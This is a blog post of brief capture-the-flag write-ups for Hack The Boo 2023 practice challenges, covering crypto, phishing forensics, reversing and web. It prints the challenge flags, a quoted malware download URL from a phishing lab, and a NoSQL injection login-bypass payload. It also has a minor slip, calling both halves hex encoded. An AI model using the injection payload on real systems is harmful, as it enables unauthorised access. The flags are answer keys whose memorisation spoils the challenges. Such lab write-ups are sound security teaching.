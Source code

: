```yaml
---
layout: post
title: Hack The Boo - 2023 Practice
date: '2023-10-26 10:02:19 +0300'
image: /assets/img/cover_images/36.png
categories: [CTF, Hack The Boo Practice - 2023 ]
---
```

## Crypto
### Hexoding
```python
def main():
    first_half = FLAG[:len(FLAG)//2]
    second_half = FLAG[len(FLAG)//2:]

    hex_encoded = to_hex(first_half)
    base64_encoded = to_base64(second_half)

    with open('output.txt', 'w') as f:
        f.write(f'{hex_encoded}\n{base64_encoded}')
```
The first half is hex encoded while the other half is hex encoded. After decoding the output we get the flag
```
HTB{kn0w1ng_h0w_t0_1d3nt1fy_3nc0d1ng_sch3m3s_1s_cruc14l_f0r_a_crypt0gr4ph3r___4ls0_d0_n0t_c0nfus3_enc0d1ng_w1th_encryp510n!}
```
## Forensics
### Spooky Phishing
After opening the index.html file the file tries to download a file from the url with the flag
```
https://windowsliveupdater.htb/HTB{sp00ky_ph1sh1ng_w1th_sp00ky_spr34dsh33ts}/app.xlsx.exe
```
## Reversing
### CandyBowl
We runs strings for the candy bowl binary and boom we get the flag 
```
HTB{4lw4y5_ch3ck_ur_k1d5_c4ndy}
```
## Web 
### CandyVault
The website is using mongodb so we try nosql injection with the following payload
```json
{"email": {"$ne": null}, "password": {"$ne": null} }
```
Then we have to change the content type before sending the request
```
Content-Type: application/json
```
Then we get the page with the flag
```
HTB{w3lc0m3_to0o0o_th3_c44andy_v4u1t!}
```